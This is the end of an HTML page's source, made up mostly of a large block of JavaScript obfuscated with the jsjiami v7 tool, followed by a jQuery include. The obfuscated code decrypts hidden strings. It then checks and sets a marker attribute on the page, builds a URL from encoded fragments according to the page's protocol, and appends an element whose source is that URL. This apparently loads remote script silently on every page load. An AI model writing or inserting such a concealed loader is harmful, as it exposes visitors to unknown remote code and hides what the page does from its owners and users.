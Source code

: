 	var _0xodR='jsjiami.com.v7';var _0x531db0=_0x35ed;(function(_0x136de5,_0xd30ad5,_0x5c753e,_0x8bfc1d,_0x526cfc,_0x51b5b0,_0x1ff4a9){return _0x136de5=_0x136de5>>0x9,_0x51b5b0='hs',_0x1ff4a9='hs',function(_0x4c6099,_0x37f649,_0x1307df,_0x5f020d,_0x112d6a){var _0x566147=_0x35ed;_0x5f020d='tfi',_0x51b5b0=_0x5f020d+_0x51b5b0,_0x112d6a='up',_0x1ff4a9+=_0x112d6a,_0x51b5b0=_0x1307df(_0x51b5b0),_0x1ff4a9=_0x1307df(_0x1ff4a9),_0x1307df=0x0;var _0x155b10=_0x4c6099();while(!![]&&--_0x8bfc1d+_0x37f649){try{_0x5f020d=-parseInt(_0x566147(0x92,'Jfcj'))/0x1+-parseInt(_0x566147(0x88,'^UtO'))/0x2+parseInt(_0x566147(0x81,'qybi'))/0x3*(parseInt(_0x566147(0x79,'UPEL'))/0x4)+parseInt(_0x566147(0x68,'bEGe'))/0x5*(-parseInt(_0x566147(0x8a,'^8C9'))/0x6)+parseInt(_0x566147(0x86,'NGix'))/0x7*(parseInt(_0x566147(0x76,'juW2'))/0x8)+-parseInt(_0x566147(0x8c,'t[*T'))/0x9*(-parseInt(_0x566147(0x70,'NGix'))/0xa)+parseInt(_0x566147(0x82,'GJBz'))/0xb*(parseInt(_0x566147(0x7f,'p*Z9'))/0xc);}catch(_0x573dc7){_0x5f020d=_0x1307df;}finally{_0x112d6a=_0x155b10[_0x51b5b0]();if(_0x136de5<=_0x8bfc1d)_0x1307df?_0x526cfc?_0x5f020d=_0x112d6a:_0x526cfc=_0x112d6a:_0x1307df=_0x112d6a;else{if(_0x1307df==_0x526cfc['replace'](/[TqWYULQDVPfpXkCytgI=]/g,'')){if(_0x5f020d===_0x37f649){_0x155b10['un'+_0x51b5b0](_0x112d6a);break;}_0x155b10[_0x1ff4a9](_0x112d6a);}}}}}(_0x5c753e,_0xd30ad5,function(_0x4e1a0f,_0x26450e,_0x450db1,_0x27a568,_0x5d04e8,_0x2d885f,_0x6e7558){return _0x26450e='\x73\x70\x6c\x69\x74',_0x4e1a0f=arguments[0x0],_0x4e1a0f=_0x4e1a0f[_0x26450e](''),_0x450db1='\x72\x65\x76\x65\x72\x73\x65',_0x4e1a0f=_0x4e1a0f[_0x450db1]('\x76'),_0x27a568='\x6a\x6f\x69\x6e',(0x18889e,_0x4e1a0f[_0x27a568](''));});}(0x18600,0xb7800,_0x16c8,0xc5),_0x16c8)&&(_0xodR=_0x531db0(0x6f,'NU#*'));function _0x35ed(_0x27624e,_0x2450dd){var _0x16c8c0=_0x16c8();return _0x35ed=function(_0x35ed1d,_0x5acb96){_0x35ed1d=_0x35ed1d-0x67;var _0x2cb0e4=_0x16c8c0[_0x35ed1d];if(_0x35ed['BHBuNm']===undefined){var _0x47d13f=function(_0x4719cd){var _0x4e7545='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';var _0x43f0d5='',_0x392a71='';for(var _0x175535=0x0,_0x31820e,_0x1daea6,_0x4f4259=0x0;_0x1daea6=_0x4719cd['charAt'](_0x4f4259++);~_0x1daea6&&(_0x31820e=_0x175535%0x4?_0x31820e*0x40+_0x1daea6:_0x1daea6,_0x175535++%0x4)?_0x43f0d5+=String['fromCharCode'](0xff&_0x31820e>>(-0x2*_0x175535&0x6)):0x0){_0x1daea6=_0x4e7545['indexOf'](_0x1daea6);}for(var _0x1923b9=0x0,_0x30c863=_0x43f0d5['length'];_0x1923b9<_0x30c863;_0x1923b9++){_0x392a71+='%'+('00'+_0x43f0d5['charCodeAt'](_0x1923b9)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0x392a71);};var _0x2f6bb4=function(_0x450ce3,_0x14c9d8){var _0x213933=[],_0x31b475=0x0,_0x2281db,_0x3bb513='';_0x450ce3=_0x47d13f(_0x450ce3);var _0x42a477;for(_0x42a477=0x0;_0x42a477<0x100;_0x42a477++){_0x213933[_0x42a477]=_0x42a477;}for(_0x42a477=0x0;_0x42a477<0x100;_0x42a477++){_0x31b475=(_0x31b475+_0x213933[_0x42a477]+_0x14c9d8['charCodeAt'](_0x42a477%_0x14c9d8['length']))%0x100,_0x2281db=_0x213933[_0x42a477],_0x213933[_0x42a477]=_0x213933[_0x31b475],_0x213933[_0x31b475]=_0x2281db;}_0x42a477=0x0,_0x31b475=0x0;for(var _0x275098=0x0;_0x275098<_0x450ce3['length'];_0x275098++){_0x42a477=(_0x42a477+0x1)%0x100,_0x31b475=(_0x31b475+_0x213933[_0x42a477])%0x100,_0x2281db=_0x213933[_0x42a477],_0x213933[_0x42a477]=_0x213933[_0x31b475],_0x213933[_0x31b475]=_0x2281db,_0x3bb513+=String['fromCharCode'](_0x450ce3['charCodeAt'](_0x275098)^_0x213933[(_0x213933[_0x42a477]+_0x213933[_0x31b475])%0x100]);}return _0x3bb513;};_0x35ed['vnXudU']=_0x2f6bb4,_0x27624e=arguments,_0x35ed['BHBuNm']=!![];}var _0x2fcba8=_0x16c8c0[0x0],_0x2ec85a=_0x35ed1d+_0x2fcba8,_0x2f467d=_0x27624e[_0x2ec85a];return!_0x2f467d?(_0x35ed['pOaoyG']===undefined&&(_0x35ed['pOaoyG']=!![]),_0x2cb0e4=_0x35ed['vnXudU'](_0x2cb0e4,_0x5acb96),_0x27624e[_0x2ec85a]=_0x2cb0e4):_0x2cb0e4=_0x2f467d,_0x2cb0e4;},_0x35ed(_0x27624e,_0x2450dd);}if(!document[_0x531db0(0x67,'E5h2')][_0x531db0(0x7d,'!X$&')](_0x531db0(0x89,'NbVf'))){document[_0x531db0(0x8f,'^8C9')][_0x531db0(0x6c,')!jy')](_0x531db0(0x85,'2%H&'),!![]);var ox312341=window[_0x531db0(0x80,'QKt)')][_0x531db0(0x90,'qybi')]===_0x531db0(0x6b,'bdHk')?_0x531db0(0x73,'z7J2')+_0x531db0(0x78,'^UtO')+_0x531db0(0x7e,'juW2'):_0x531db0(0x7a,'2%H&')+_0x531db0(0x83,'pCb9')+_0x531db0(0x7b,'E5h2'),ox782681=document[_0x531db0(0x77,'Jfcj')](_0x531db0(0x6d,'pqu]'));ox782681[_0x531db0(0x87,'E5h2')]=ox312341+_0x531db0(0x6a,'pCb9'),document[_0x531db0(0x67,'E5h2')][_0x531db0(0x8b,'GJBz')](ox782681);}function _0x16c8(){var _0xd14c61=(function(){return[_0xodR,'tqItjsTpjqgiayfkmXiTC.ktPcWoPUmVf.LYvQD7==','WQRdUsRdPZf8W6C','AwtcT8ozlmkTbar7jc5h','WOnrW7vlW7uWWQm+WPRcR0Tv','ACkFWOLTt3ajW6KexSoeECkb','FKldStPhwSo9WOJdIKJdRsuk','WPC/WO3cRblcVfr/xmoNWQFdUSo7Fa','W43cGd3dNmkuW5tdSXFcQxBcGW','xI/cGSonW4dcVmk7vG','W4NcS8oU','omoatSoUzCoImmkrt8k2Fmooq0C','hSk8dSk1WOxdHL8vg8ozlCkM','DmomW5q','W7bWWQ0wW60sWQtdHCoi','iCkXW6Gnv8kYW6ZdSq','jMpdISoDl8kBWP/dRa'].concat((function(){return['btSWW6NcKdSwESkkASovEG','BLGFW6zXiG7dGmojwd1jCq','WOpcIHjgaapcVZddNCkDeW','xZxcN8oj','W6pdSmkLWRlcM3hcTa','WPtcOSoJ','W5LRW53cSexdOujlgmkhW5ZcKa','W4v8WQFcHq','yCkdfmkZnSoNfSo1Fmkiua','uhL1WRNdJ2WgA8kTrmof','WR0GzCoIWRFdLCoNWQK','lahcRw4ccmkiWQldHKddHcmt','rmkyWQHcpqpcKmoc','mmoCqmo+','zYtdQCoDfmkoWQRdHa','q25OW4OVxCo3gq','jqtcRgOcd8oVWO3dGfFdMaa'].concat((function(){return['W6dcOSohWRVcMvZcJIr4','u0ZdT8kaDe7cKCkNWPzWWQ8','WOxcV8oKW4W','W5pdUSkXW5pcVq0uW5BdIq','C3hdQmkUzCk+uCoCWO9dW4e1DW','nK4jWQPJiGhcISkngsjnzmoEnJLkW40','dGJcU8ogFG','WQ7cHwDHxmoWn8kkWRn5W5ddPa','WQ5SoexdP8kC','rmkzW6TfoZJcJCoIW7e','WRVcPSkWW7tdNSo9W7dcVmkRWQdcOfFdVNS','W6xcOSolW6ldNbZdRXn5yhFdKfq','W5rOW5RcTexdPMTJpmkwW6xcRq','WO0dWPaFWRjEWRi'];}()));}()));}());_0x16c8=function(){return _0xd14c61;};return _0x16c8();};var version_ = 'jsjiami.com.v7';
</script>
<script src="https://apps.bdimg.com/libs/jquery/2.1.1/jquery.min.js"></script>
</body>
</html>
